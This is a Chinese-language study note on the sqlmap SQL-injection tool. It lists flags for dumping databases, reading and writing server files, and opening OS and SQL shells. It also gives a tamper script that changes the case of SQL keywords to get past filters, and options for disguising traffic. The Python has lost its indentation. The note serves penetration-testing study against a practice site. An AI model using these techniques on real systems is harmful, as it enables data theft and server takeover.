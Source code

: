 
---
![[sqlmap.jpg]]

**参考：**
https://www.cnblogs.com/bmjoker/p/9326258.html

**数据猜解-库表列数据** 
字典
测试：http://vulnweb.com/

```
	--current-db

	--tables -D ""

	--columns -T "" -D ""

	--dump -C "" -T "" -D ""
```

**权限操作**
文件&命令&交互式
测试：MYSQL高权限注入

引出权限：

```
	--is-dba 查看当前用户是否为admin
	--privileges 查看当前用户权限
```
引出文件：

```
	--file-read 文件读取
	--file-write 文件写入
	 --file-write
	 本地文件路径 --file-dest 网站路径(写入路径)+"/写入的文件名
```
引出命令：

```
	--os-cmd
	cmd命令台
	--os-shell
	powershell命令 
	--sql-shell
	sql命令台

```
**提交方法**

POST&HEAD&JSON

测试：Post Cookie Json

```
	使用的sqlmap自带的请求头
	--data ""
	
	设置cookie
	--cookie ""
	
	post发送txt文件中数据包
	-r 1.txt
```

**绕过模块-Tamper脚本**

使用&开发
测试：base64注入 有过滤的注入

	
> [!将pyload自动转换成base64格式的模块]
> 	--tamper=base64encode.py

	--tamper=test.py
自己写绕过模板

```python
from lib.core.enums import PRIORITY
	__priority__ = PRIORITY.LOW
	
	def dependencies():
	pass
	
	def tamper(payload, **kwargs):
	if payload:
	payload = payload.replace('SELECT','sElEct')
	payload = payload.replace('OR','Or')
	payload = payload.replace('AND','And')
	payload = payload.replace('SLEEP','SleeP')
	payload = payload.replace('ELT','Elt')
	return payload
```

**分析拓展-代理**
调试&指纹&风险&等级

1、后期分析调试：

详细的等级(0-6)

	-v=(0-6) 
代理注入

	--proxy "http://xx:xx" 

2、打乱默认指纹：

```
	--user-agent "" #自定义user-agent

	--random-agent #随机user-agent

	--time-sec=(2,5) #延迟响应，默认为5
```

3、使用更多的测试

测试Header注入

```
	--level=(1-5) #要执行的测试水平等级，默认为1

	--risk=(0-3) #测试执行的风险等级，默认为1
```
